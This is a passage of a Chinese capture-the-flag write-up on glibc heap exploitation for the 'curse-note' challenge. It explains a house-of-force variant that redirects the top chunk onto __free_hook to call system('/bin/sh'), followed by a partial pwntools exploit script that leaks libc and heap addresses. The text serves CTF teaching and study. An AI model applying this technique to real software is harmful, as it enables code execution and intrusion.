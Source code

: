 第二次没有取是因为.chunk_size不够大在第一次`_int_malloc`.
那么如果我们设置一个比较大的size是否可以成功获取`__malloc_hook`
结论是否定的因为本题有以下约束
1. topchunk->0x7ffff7dd1af0
2. 因为在malloc时会向新的topchunk写入size所以malloc 的大小应当小于 stack_end-topchunk （此时依然在第一次_int_malloc时就成功获取故不可用）或者>bss+0x10000000000000000-topchunk(0xffffd5555d985510 为负数 没办法过 `test+js`)
3. 至此...house of force应该是流产了...
那咱此路不通换条路.

# 行得通的大概率非预期解
经过长时间的尝试...（其实大部分时间都在摸鱼）.试过了`orange`,修改`global_fast_max`..都失败了
我突然想到可以直接 把主分配区`topchunk`的head放到sub_heap的`topchunk`的head上
之后再次malloc把`topchunk`的指针指向`free_hook`通过控制一开始的`topchunk_size`达到任意地址写的效果不过因为`inuse`位的关系所以末尾为9或者1
但是还好system的地址末尾是0:
`0x7fbd995d7390 <__libc_system>:	test   rdi,rdi`
改成1之后影响不大:
`0x7fbd995d7391 <__libc_system+1>:	test   edi,edi`
于是我就做出来了but 估计是非预期...
现整理一下思路:
1. 通过任意地址写一bit的0改写main_arena.topchunk指针的最低bit使其指向已控制区域改写 topchunk的size(house of force)
2. malloc 较大的值使得main_arena.topchun的size域恰好落在sub_heap的topchunk的size上这样使得我们可以再次利用
3. malloc 一个较大的值使得sub_heap的topchunk的size恰好落在 free_hook上(事先经过计算使得其值等于system+1)
4. system('/bin/sh');

想到这个思路走了好多弯路...
exp:
1/16概率
```python
from pwn import *
def cmd(c):
	p.sendlineafter(": ",str(c))
def add(idx,size,c):
	cmd(1)
	cmd(idx)
	cmd(size)
	p.sendafter(": ",c)
def show(idx):
	cmd(2)
	cmd(idx)
def free(idx):
	cmd(3)
	cmd(idx)
context.log_level='debug'
p=process('./patched')
libc=ELF("./patched").libc
add(0,0xe8,"A")
add(1,0x58,"B")
add(2,0x58,"B")
free(0)
add(0,0xe8,"A")
show(0)
base=u64(p.read(8))-(0x7ffff7dd1b41-0x7ffff7a0d000)
free(0)
free(1)
free(2)
add(1,0x58,"A")
show(1)
heap=u64(p.read(8))-(0x41)
log.warning(hex(base))
log.warning(hex(heap))
libc.address=base
one=0xf1147+base
ATM=libc.sym['system']+(libc.sym['__free_hook']-heap-0x100)+1-8
```

[1]: https://n132.github.io/2019/05/28/2019-05-28-Null/#ARENA-c
[2]: https://github.com/n132/Watermalon/tree/master/Xman-2019/curse-note